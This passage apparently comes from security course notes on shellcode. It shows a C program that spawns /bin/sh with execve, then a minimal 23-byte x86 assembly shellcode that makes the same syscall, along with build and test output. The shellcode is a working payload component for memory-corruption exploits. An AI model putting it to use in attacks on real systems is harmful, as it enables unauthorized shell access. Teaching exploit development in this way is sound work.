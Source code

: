 ``` {.c}
/*small_execve.c*/

#include <unistd.h>

int main(){
  execve("/bin/sh",NULL,NULL);
}
```

Notice, in this is `execve` call there is no `argv` array. We just leave
this NULL, which is not preferred but still works. Essentially, you are
indicating that you do not want any arguments at all, but `execve` is
smart enough to fix this for you later. In fact, running this program
works fine:

``` {.example}
user@si485H-base:demo$ gcc small_execve.c   -o small_execve
small_execve.c: In function ‘main’:
small_execve.c:4:3: warning: null argument where non-null required (argument 2) [-Wnonnull]
   execve("/bin/sh",NULL,NULL);
   ^
user@si485H-base:demo$ ./small_execve 
$ echo "It Works!"           
It Works!
$ 
```

Yes, the compiler complains, but who cares if it works.

With these changes, we are left with the following shell code:

``` {.asm}
;;smaller_shell.asm
SECTION .text           ; Code section
             global _start  ; Make label available to linker
_start:
    xor eax,eax
    push eax        ;\0
    push 0x68732f6e     ;n/sh
    push 0x69622f2f     ;//bi 

    xor edx,edx        ; Parm #3 - NULL
    xor ecx,ecx        ; Param #2 - NULL
    mov ebx,esp         ; Param #1 - "/bin/sh" is *esp
    mov al,0xb          ; System call number for execve
    int 0x80        ; Interrupt 80 hex - invoke system call
```

And we can compile and test:

``` {.example}
user@si485H-base:demo$ nasm -f elf smaller_shell.asm -o smaller_shell.o
user@si485H-base:demo$ ld smaller_shell.o -o smaller_shell
user@si485H-base:demo$ ./smaller_shell 
$ echo "It Works!"    
It Works!
$ 
user@si485H-base:demo$ printf `./hexify.sh smaller_shell` | wc -c
23
```
